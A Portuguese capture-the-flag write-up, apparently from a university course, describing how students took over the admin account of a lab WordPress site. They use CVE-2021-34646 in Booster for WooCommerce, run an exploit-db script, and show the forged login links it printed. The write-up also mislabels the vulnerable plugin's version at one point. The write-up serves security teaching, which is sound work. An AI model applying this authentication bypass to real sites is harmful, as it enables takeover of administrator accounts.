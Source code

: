 # CTF 1 

## Primeira parte

Ao aceder à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress, começamos por inferir todas as dependências do site. Através de uma pesquisa mais cuidada, tanto pela navegação nos diversos links como pelo código-fonte do mesmo, acabamos por descobrir as seguintes dependências:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

Depois investigamos em bases de dados de CVEs vulnerabilidades associadas a cada plugin e cada versão, com principal incidência nas que permitissem fazer login como outro utilizador. A CVE-2021-34646 do WooCommerce 5.4.3 pareceu-nos adequada, e ao usarmos a `flag[CVE-2021-34646]` ultrapassamos a primeira parte do desafio.

## Segunda parte

Descoberta a vulnerabilidade da versão 5.4.3 do plugin WooCommerce, catalogada e disponível [aqui](https://www.exploit-db.com/exploits/50299), tivemos acesso a passos detalhados que permitiam explorá-la. A primeira tarefa foi aceder a `https://target.com/wp-json/wp/v2/users/` de forma a encontrarmos IDs de administradores. Após descoberta do ID=1, que é normalmente usado por utilizadores de acessos privilegiados, também tivemos acesso a um script em Python que usava esse mesmo identificador para atacar o site: 

````bash
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````

De forma simplista, o ataque consiste em formar um link de validação de login com uma chave codificada em Base 64 através do timestamp atual. Como resultado obtivemos alguns links:

````
Timestamp: Fri, 07 Oct 2022 10:32:54 GMT
Timestamp (unix): 1665138774

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash b8f64a0ef997c812589538daf4778731:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjhmNjRhMGVmOTk3YzgxMjU4OTUzOGRhZjQ3Nzg3MzEifQ

#1 link for hash 7bab6c3f87bb43a8700395f17fba953b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2JhYjZjM2Y4N2JiNDNhODcwMDM5NWYxN2ZiYTk1M2IifQ

#2 link for hash 92b66b0659b9b9e339d4afe1c09dee10:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOTJiNjZiMDY1OWI5YjllMzM5ZDRhZmUxYzA5ZGVlMTAifQ
````

Aceder a um dos três resultados obtidos permitiu-nos fazer login na conta do administrador do site. Bastou seguir as indicações do guião do CTF para acedermos também à página **http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php**. No post privado estava escrita a flag final do desafio, `flag{please don't bother me}`.